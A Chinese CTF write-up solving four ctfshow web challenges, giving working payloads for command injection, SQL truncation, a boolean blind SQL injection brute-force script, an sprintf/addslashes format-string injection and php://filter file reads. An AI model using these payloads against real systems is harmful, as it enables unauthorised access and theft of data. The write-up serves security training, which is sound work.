 ﻿---
title: ctfshow 萌新赛web
categories: 赛题wp
---
## 签到
- 考点：代码审计

<!--more-->
```bash

 <?php 
 if(isset($_GET['url'])){
        system("curl https://".$_GET['url'].".ctf.show");
 }else{
         show_source(__FILE__);
 }
  ?>
 ```

闭合前后语句即可



```
payload:  ;ls;  --> ;cat flag;
```

---
## 假赛生
- 考点：sql约束攻击

```bash

<?php
session_start();
include('config.php');
if(empty($_SESSION['name'])){
    show_source("index.php");
}else{
    $name=$_SESSION['name'];
    $sql='select pass from user where name="'.$name.'"';
    echo $sql."<br />";
    system('4rfvbgt56yhn.sh');
    $query=mysqli_query($conn,$sql);
    $result=mysqli_fetch_assoc($query);
    if($name==='admin'){
        echo "admin!!!!!"."<br />";
        if(isset($_GET['c'])){
            preg_replace_callback("/\w\W*/",function(){die("not allowed!");},$_GET['c'],1);
            echo $flag;
        }else{
            echo "you not admin";
        }
    }
}
?>

```
根据hint 进入register.php  login.php

观察源码发现name===admin时进行下一步

先注册admin发现已经有此用户
尝试sql约束攻击  注册`‘admin ’`

登录‘admin’  登陆成功

绕过正则：
>\w	匹配字母或数字或下划线 *	重复零次或更多次
\W	匹配任意不是字母，数字，下划线，汉字的字符

```
  Payload:  ?c=?
```

---
##  萌新记忆
- 考点：布尔盲注+脚本

扫后台：

![](https://img-blog.csdnimg.cn/20210301174644381.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
应该是sql

![](https://img-blog.csdnimg.cn/20210301174659628.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
抓包

![](https://img-blog.csdnimg.cn/202103011747175.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
测试：
- =被过滤
- or被过滤： 使用 `||` 绕过
- #和–被过滤：使用单引号闭合最后的单引号

推测语句为：

```bash
  SELECT password FROM user WHERE username=''||length(password)<5
  SELECT password FROM user WHERE username=''||substr(password,1,1)<'g';
```
构造：
```
   '||length(p)<'18 返回密码错误 说明密码长度为17
   '||substr(p,1,1)<'a：猜解字段。
```

脚本：

```bash

import requests

url="http://7be015eb-869b-4348-8c62-c30b565cb3b1.chall.ctf.show:8080/admin/checklogin.php"
flag=""

for i in range(18):
    for j in '0123456789abcdefghijklmnopqrstuvwxyz':
        data={"u":"'||substr(p,{},1)<'{}".format(i,j),
              "p":""
              }
        c=requests.post(url=url,data=data)
        if '用户名' not in c.text:
            flag+=chr(ord(j)-1)
            print(flag)
            break
```
密码：cptbtptpbcptdtptp   登录可得flag

---
## 给她
- 考点：git泄露+伪协议+ sprintf 函数漏洞

![](https://img-blog.csdnimg.cn/20210301175113965.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
dir扫一下

![](https://img-blog.csdnimg.cn/2021030117513142.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
Githack  url+.git/

![](https://img-blog.csdnimg.cn/20210301175200385.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
发现 hint.php:

```bash

<?php
  $pass=sprintf("and pass='%s'",addslashes($_GET['pass']));
  $sql=sprintf("select * from user where name='%s' $pass",addslashes($_GET['name']));
?>

```

sprintf和addslashes有个漏洞

[从WordPress SQLi谈PHP格式化字符串问题](https://paper.seebug.org/386/#0x02)


addslashes() 函数返回在预定义字符之前添加反斜杠的字符串。

```
  预定义字符是：
   • 单引号（'）
   • 双引号（"）
   • 反斜杠（\）
   • NULL
```

sprintf() 函数把格式化的字符串写入变量中。

```
可能的格式值：
 •	%% - 返回一个百分号 %
 •	%b - 二进制数
 •	%c - ASCII 值对应的字符
 •	%d - 包含正负号的十进制数（负数、0、正数）
 •	%e - 使用小写的科学计数法（例如 1.2e+2）
 •	%E - 使用大写的科学计数法（例如 1.2E+2）
 •	%u - 不包含正负号的十进制数（大于等于 0）
 •	%f - 浮点数（本地设置）
 •	%F - 浮点数（非本地设置）
 •	%g - 较短的 %e 和 %f
 •	%G - 较短的 %E 和 %f
 •	%o - 八进制数
 •	%s - 字符串
 •	%x - 十六进制数（小写字母）
 •	%X - 十六进制数（大写字母）

```

利用payload：
```
  ?name=1&pass=%1$' or 1%23
```

![](https://img-blog.csdnimg.cn/20210301175613982.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
构造：pass=`%1$’` or 1# 变为  `%1$\’`  即 `‘`  变成：

select * from user where name='admin' and pass=''or 1 #’


成功跳转：

![](https://img-blog.csdnimg.cn/20210301175658909.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
查看源码：

得到提示  flag在/flag

![](https://img-blog.csdnimg.cn/20210301175712453.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
刷新抓包：

![](https://img-blog.csdnimg.cn/20210301175743696.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
看到file 应该存在文件包含漏洞

16进制解码为：flag.xtt

![](https://img-blog.csdnimg.cn/20210301175801953.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
访问flga.txt

![](https://img-blog.csdnimg.cn/20210301175817838.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
确认存在

利用伪协议读取文件同时要转十六进制：
 Php://filter/read=convert,base64-encode/resource=/flag

![](https://img-blog.csdnimg.cn/20210301175847587.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
使用rot13 试一试 :

```bash
php://filter/read=string.rot13/resource=/flag
```

![](https://img-blog.csdnimg.cn/20210301175907888.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

